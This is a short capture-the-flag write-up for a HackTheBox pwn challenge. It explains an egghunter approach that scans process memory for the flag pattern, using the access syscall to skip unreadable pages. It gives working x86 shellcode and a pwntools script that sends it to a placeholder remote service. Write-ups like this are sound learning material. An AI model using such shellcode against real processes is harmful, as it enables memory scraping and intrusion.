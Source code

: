 - the program is allocating memory for the flag to store it and after corrupt it, so the only solution to this challenge is to scan process memory for 'HTB{' pattern.
- we will face one problem which is if the memory page we want to read have READ permission or not. we'll use `access` SYSCALL to check that.
![pwn_hunting-copy and corrupt the flag](https://github.com/0xPrimo/CTFs/assets/93877982/58e8b19c-861b-46e1-9d1f-ea70d0f185bc)

- we'll use `egghunter` shellcode to find the pattern (egg) and print it using `write` SYSCALL.
```
	31 C0               	xor     eax, eax
	89 C7               	mov     edi, eax
	BF 48 54 42 7B          mov     edi, 7B425448h
	
	            		next_page:                           
	
	66 81 CA FF 0F          or      dx, 0FFFh
	
	                    next_address:
	
	42                      inc     edx
	60                      pusha
	31 C9                   xor     ecx, ecx        ; mode
	8D 5A 04                lea     ebx, [edx+4]    ; pathname
	B0 21                   mov     al, 21h ; '!'
	CD 80                   int     80h             ; LINUX 	sys_access
	3C F2                   cmp     al, 0F2h
	61                      popa
	74 EB                   jz      short next_page
	39 3A                   cmp     [edx], edi
	75 EC                   jnz     short next_address


	89 D1                   mov     ecx, edx        ; addr
	31 C0                   xor     eax, eax
	89 C3                   mov     ebx, eax
	89 DA                   mov     edx, ebx

						print_flag:
 	B0 04                   mov     al, 4
 	B3 01                   mov     bl, 1           ; fd
	B2 01                   mov     dl, 1
	CD 80                   int     80h             ; LINUX - sys_write
	41                      inc     ecx
	38 31                   cmp     [ecx], dh
	75 F3                   jnz     short print_flag
	C3                      retn
```
- python script

```
from pwn import *

shellcode = b'\x31\xc0\x89\xc7\xbf\x48\x54\x42\x7b\x66\x81\xca\xff\x0f\x42\x60\x31\xc9\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xeb\x39\x3a\x75\xec\x89\xd1\x31\xc0\x89\xc3\x89\xda\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x41\x38\x31\x75\xf3\xc3'


context.update(arch="i386", os="linux")


r = remote("<ip>", <port>)

r.send(shellcode)

flag = r.recv()
log.success(str(flag))
r.close()
```
